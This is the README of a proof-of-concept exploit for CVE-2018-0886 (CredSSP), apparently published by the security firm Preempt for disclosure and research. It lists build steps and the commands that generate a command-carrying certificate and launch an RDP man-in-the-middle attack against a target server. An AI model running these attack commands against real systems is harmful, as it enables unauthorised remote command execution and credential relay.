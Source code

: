 # credssp

This is a poc code for exploiting CVE-2018-0886. It should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/preempt/rdpy), allowing also credssp relay. 


Written by Eyal Karni, Preempt 
ekarni@preempt.com 

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 
It was tested on Ubuntu 16.04. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```
* It assumes a pretty clean inital state. Best to uninstall first relevant compontants such as cryptography,pyopenssl maybe (pip uninstall cryptography).  
* A different version of openssl needed to be installed for this to run successfully.  The install script does that. 
* Please follow the instructions in the described order. 

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD 
```

(exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help). 
